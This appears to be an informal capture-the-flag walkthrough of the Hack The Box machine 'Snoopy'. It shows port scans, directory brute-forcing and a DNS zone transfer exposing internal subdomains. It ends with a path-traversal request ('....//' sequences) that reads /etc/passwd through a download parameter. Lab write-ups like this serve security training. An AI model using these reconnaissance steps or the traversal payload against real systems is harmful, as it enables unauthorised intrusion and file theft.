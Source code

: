 sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.150.83 -oG allPorts

nmap 10.10.11.212
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-14 02:29 EDT
Nmap scan report for 10.10.11.212
Host is up (0.80s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 69.73 seconds
                                                    
Attention: As we migrate DNS records to our new domain please be advised that our mailserver 'mail.snoopy.htb' is currently offline.

Error: Unable to load the "PHP Email Form" Library!

so php 




```
gobuster dir --url http://snoopy.htb --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

/index.html           (Status: 200) [Size: 23418]
/about.html           (Status: 200) [Size: 16614]
/contact.html         (Status: 200) [Size: 10248]
/download             (Status: 200) [Size: 11363570]
/assets               (Status: 301) [Size: 178] [--> http://snoopy.htb/assets/]
/forms                (Status: 301) [Size: 178] [--> http://snoopy.htb/forms/]
/team.html            (Status: 200) [Size: 11115]

/download             (Status: 200) [Size: 11363570]
Progress: 232 / 441122 (0.05%)[ERROR] 2023/07/14 04:58:09 [!] context deadline exceeded (Client.Timeout or context cancellation while reading body)
/assets               (Status: 301) [Size: 178] [--> http://snoopy.htb/assets/]
/forms                (Status: 301) [Size: 178] [--> http://snoopy.htb/forms/]




nmap -p22,53,80 -sCV 10.129.150.83 -oN targeted

We enumerate the DNS by performing a zone transfer to discover possible subdomains.

so DNS enumeration is required

https://www.acunetix.com/blog/articles/dns-zone-transfers-axfr/

dig command syntaxt snoopy.htb @<snoopy actual ip>
dig axfr snoopy.htb @10.10.11.212

; <<>> DiG 9.18.12-1-Debian <<>> axfr snoopy.htb @10.10.11.212
;; global options: +cmd
snoopy.htb.             86400   IN      SOA     ns1.snoopy.htb. ns2.snoopy.htb. 2022032612 3600 1800 604800 86400
snoopy.htb.             86400   IN      NS      ns1.snoopy.htb.
snoopy.htb.             86400   IN      NS      ns2.snoopy.htb.
mattermost.snoopy.htb.  86400   IN      A       172.18.0.3
mm.snoopy.htb.          86400   IN      A       127.0.0.1
ns1.snoopy.htb.         86400   IN      A       10.0.50.10
ns2.snoopy.htb.         86400   IN      A       10.0.51.10
postgres.snoopy.htb.    86400   IN      A       172.18.0.2
provisions.snoopy.htb.  86400   IN      A       172.18.0.4
www.snoopy.htb.         86400   IN      A       127.0.0.1
snoopy.htb.             86400   IN      SOA     ns1.snoopy.htb. ns2.snoopy.htb. 2022032612 3600 1800 604800 86400
;; Query time: 276 msec
;; SERVER: 10.10.11.212#53(10.10.11.212) (TCP)
;; WHEN: Fri Jul 14 07:21:55 EDT 2023
;; XFR size: 11 records (messages 1, bytes 325)


but when we try t capture the request of downloading the package we find

GGET /download?file=announcement.pdf HTTP/1.1
Host: snoopy.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://snoopy.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

also there is an lfi vulnerability

GET /download?file=....//....//....//....//etc/passwd HTTP/1.1
Host: snoopy.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://snoopy.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


